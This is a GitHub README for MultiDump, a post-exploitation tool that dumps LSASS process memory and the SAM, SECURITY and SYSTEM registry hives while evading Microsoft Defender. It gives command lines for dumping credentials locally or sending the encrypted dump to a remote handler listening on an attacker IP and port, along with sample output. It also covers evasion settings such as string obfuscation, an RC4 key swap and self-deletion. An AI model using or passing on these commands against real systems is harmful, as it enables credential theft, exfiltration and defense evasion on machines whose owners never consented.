 ## MultiDump

MultiDump is a post-exploitation tool written in C for dumping and extracting LSASS memory discreetly, without triggering Defender alerts, with a handler written in Python.

![](multidump-defender.gif)

Blog post: https://xre0us.github.io/posts/multidump

MultiDump supports LSASS dump via `ProcDump.exe` or `comsvc.dll`, it offers two modes: a local mode that encrypts and stores the dump file locally, and a remote mode that sends the dump to a handler for decryption and analysis.

## Usage

```powershell
    __  __       _ _   _ _____
   |  \/  |_   _| | |_(_)  __ \ _   _ _ __ ___  _ __
   | |\/| | | | | | __| | |  | | | | | '_ ` _ \| '_ \
   | |  | | |_| | | |_| | |__| | |_| | | | | | | |_) |
   |_|  |_|\__,_|_|\__|_|_____/ \__,_|_| |_| |_| .__/
                                               |_|

Usage:  MultiDump.exe [-p <ProcDumpPath>] [-l <LocalDumpPath> | -r <RemoteHandlerAddr>] [--procdump] [-v]

-p              Path to save procdump.exe, use full path. Default to temp directory
-l              Path to save encrypted dump file, use full path. Default to current directory
-r              Set ip:port to connect to a remote handler
--procdump      Writes procdump to disk and use it to dump LSASS
--nodump        Disable LSASS dumping
--reg           Dump SAM, SECURITY and SYSTEM hives
--delay         Increase interval between connections to for slower network speeds
-v              Enable verbose mode

MultiDump defaults in local mode using comsvcs.dll and saves the encrypted dump in the current directory.
Examples:
        MultiDump.exe -l C:\Users\Public\lsass.dmp -v
        MultiDump.exe --procdump -p C:\Tools\procdump.exe -r 192.168.1.100:5000
```

```bash
usage: MultiDumpHandler.py [-h] [-r REMOTE] [-l LOCAL] [--sam SAM] [--security SECURITY] [--system SYSTEM] [-k KEY] [--override-ip OVERRIDE_IP]

Handler for RemoteProcDump

options:
  -h, --help            show this help message and exit
  -r REMOTE, --remote REMOTE
                        Port to receive remote dump file
  -l LOCAL, --local LOCAL
                        Local dump file, key needed to decrypt
  --sam SAM             Local SAM save, key needed to decrypt
  --security SECURITY   Local SECURITY save, key needed to decrypt
  --system SYSTEM       Local SYSTEM save, key needed to decrypt
  -k KEY, --key KEY     Key to decrypt local file
  --override-ip OVERRIDE_IP
                        Manually specify the IP address for key generation in remote mode, for proxied connection
```

As with all LSASS related tools, Administrator/SeDebugPrivilege priviledges are required.

The handler depends on [Pypykatz](https://github.com/skelsec/pypykatz) to parse the LSASS dump, and [impacket](https://github.com/fortra/impacket) to parse the registry saves. They should be installed in your enviroment. If you see the error `All detection methods failed`, it's likely the Pypykatz version is outdated.

By default, MultiDump uses the `Comsvc.dll` method and saves the encrypted dump in the current directory.

```powershell
MultiDump.exe
...
[i] Local Mode Selected. Writing Encrypted Dump File to Disk...
[i] C:\Users\MalTest\Desktop\dciqjp.dat Written to Disk.
[i] Key: 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

```bash
./ProcDumpHandler.py -f dciqjp.dat -k 91ea54633cd31cc23eb3089928e9cd5af396d35ee8f738d8bdf2180801ee0cb1bae8f0cc4cc3ea7e9ce0a74876efe87e2c053efa80ee1111c4c4e7c640c0e33e
```

If `--procdump` is used, `ProcDump.exe` will be writtern to disk to dump LSASS.

In remote mode, MultiDump connects to the handler's listener.

```bash
./ProcDumpHandler.py -r 9001
[i] Listening on port 9001 for encrypted key...
```

```powershell
MultiDump.exe -r 10.0.0.1:9001
```

The key is encrypted with the handler's IP and port. When MultiDump connects through a proxy, the handler should use the `--override-ip` option to manually specify the IP address for key generation in remote mode, ensuring decryption works correctly by matching the decryption IP with the expected IP set in MultiDump `-r`.

An additional option to dump the `SAM`, `SECURITY` and `SYSTEM` hives are available with `--reg`, the decryption process is the same as LSASS dumps. This is more of a convenience feature to make post exploit information gathering easier.

### Building MultiDump

Open in Visual Studio, build in **Release** mode.

### Customising MultiDump

It is recommended to customise the binary before compiling, such as changing the static strings or the RC4 key used to encrypt them, to do so, another Visual Studio project `EncryptionHelper`, is included. Simply change the key or strings and the output of the compiled `EncryptionHelper.exe` can be pasted into `MultiDump.c` and `Common.h`.

Self deletion can be toggled by uncommenting the following line in `Common.h`:

```c
#define SELF_DELETION
```

To further evade string analysis, most of the output messages can be excluded from compiling by commenting the following line in `Debug.h`:

```c
//#define DEBUG
```

---

MultiDump might get detected on Windows 10 22H2 (19045) (sort of), and I have implemented a fix for it (sort of), the investigation and implementation deserves a blog post itself: https://xre0us.github.io/posts/saving-lsass-from-defender/

## Credits

- Some techniques used learnt from [MalDev Academy](https://maldevacademy.com), it is an awesome course, highly recommended
- Inspired by [proc_noprocdump](https://github.com/djackreuter/proc_noprocdump)
- Code to further process LSASS dump from [lsassy](https://github.com/Hackndo/lsassy)
- Testing and suggestions from [ballro](https://github.com/ballro)
- Testing and suggestions from [DisplayGFX](https://github.com/DisplayGFX), [nthdeg](https://github.com/nthdeg) and silentbee